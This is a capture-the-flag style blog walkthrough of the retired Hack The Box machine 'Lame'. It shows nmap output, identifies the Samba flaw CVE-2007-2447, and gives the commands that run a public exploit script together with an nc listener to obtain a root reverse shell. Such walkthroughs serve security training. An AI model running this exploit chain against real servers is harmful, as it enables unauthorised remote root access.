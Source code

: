 +++
title = 'HackTheBox - Lame'
date = 2023-09-15T17:03:12+02:00
draft = false
+++

**Lame** is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

# Info


    OS - Linux
    Difficulty - Easy
    Points - /
    Release - 14 Mar, 2017
    IP - 10.10.10.3

# Enumeration

## Nmap Scan

**`nmap -sC -sV -Pn 10.10.10.3`**

```Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 17:13 CEST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.055s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  Q5V      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m33s, deviation: 2h49m44s, median: 31s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-15T11:14:12-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

## Service Observation

Here we can't see any open HTTP or HTTPS ports, but what we can see is open ftp, ssh and samba ports, after the research about services and their versions we can see that Samba on port 139 is vulnerable (CVE-2007-2447).

## More about CVE-2007-2447
To exploit this vulnerability, an attacker would send a specially crafted request to the Samba server, taking advantage of the username map script feature. By doing so, they could execute arbitrary code with the privileges of the Samba server process, potentially gaining control over the server.

# Exploitation

To exploit this vulnerability we found we are gonna use publicly available exploit:
https://github.com/amriunix/CVE-2007-2447

First what we are gonna do is install this tool and read the usage commands!

```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

- `RHOST` -- The target address
- `RPORT` -- The target port (TCP : 139)
- `LHOST` -- The listen address
- `LPORT` -- The listen port

In this specific scenario:
**RHOST** = `10.10.10.3`
**RPORT** = `139`
Now we will get the lhost by running the command `ifconfig` 
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet ***10.10.14.5***  netmask 255.255.254.0  destination 10.10.14.5

So in this scenario
**LHOST** = `10.10.14.5`
**LPORT** = (we can choose the port we want, in this case i choose 1234) = `1234`

so the command would be 
## Running the exploit
```
python usermap_script.py 10.10.10.3 139 10.10.14.5 1234
```

Before running the command we will run *netcat* listener on port **1234** like this:

```
nc -lvnp 1234
```
## PoC
After running the exploit we will get the *reverse shell* as **root**

![Minion](https://github.com/pepax3/pepax3.github.io/blob/main/content/posts/HackTheBox%20-%20Lame/PoC.png?raw=true)




